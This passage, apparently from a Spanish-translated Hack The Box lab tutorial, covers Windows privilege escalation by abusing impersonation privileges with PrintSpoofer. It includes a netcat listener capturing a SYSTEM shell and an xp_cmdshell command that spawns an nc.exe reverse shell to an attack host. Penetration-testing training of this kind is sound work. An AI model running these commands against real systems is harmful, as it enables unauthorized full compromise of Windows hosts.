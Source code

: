 #### Captura del sistema del sistema

Esto se completa con éxito y un caparazón como`NT AUTHORITY\SYSTEM`se recibe.

  Seimpersonate y SeassignPrimaryToken

```shell-session
xnoxos@htb[/htb]$ sudo nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 50332
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system


C:\Windows\system32>hostname

hostname
WINLPE-SRV01
```

---

## Printspofer y roguepotato

JuicyPotato no funciona en Windows Server 2019 y Windows 10 construyen 1809 en adelante. Sin embargo,[Printspoofer](https://github.com/itm4n/PrintSpoofer)y[Roguepotato](https://github.com/antonioCoco/RoguePotato)se puede utilizar para aprovechar los mismos privilegios y ganar`NT AUTHORITY\SYSTEM`acceso a nivel. Este[blog](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)va en profundidad en el`PrintSpoofer`Herramienta, que puede usarse para abusar de los privilegios de suplantación en los hosts de Windows 10 y Server 2019 donde Juicypotato ya no funciona.

#### Privilegios crecientes usando printspoofer

Probemos esto usando el`PrintSpoofer`herramienta. Podemos usar la herramienta para generar un proceso del sistema en su consola actual e interactuar con ella, generar un proceso del sistema en un escritorio (si se registra localmente o a través de RDP), o atrapar un shell inverso, lo que haremos en nuestro ejemplo. De nuevo, conéctese con`mssqlclient.py`y use la herramienta con el`-c`argumento para ejecutar un comando. Aquí, usando`nc.exe`para generar un shell inverso (con un oyente de NetCat esperando en nuestra caja de ataque en el puerto 8443).

  Seimpersonate y SeassignPrimaryToken

```shell-session
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

output                                                                             

--------------------------------------------------------------------------------   

[+] Found privilege: SeImpersonatePrivilege                                        

[+] Named pipe listening...                                                        

[+] CreateProcessAsUser() OK                                                       

NULL 
```
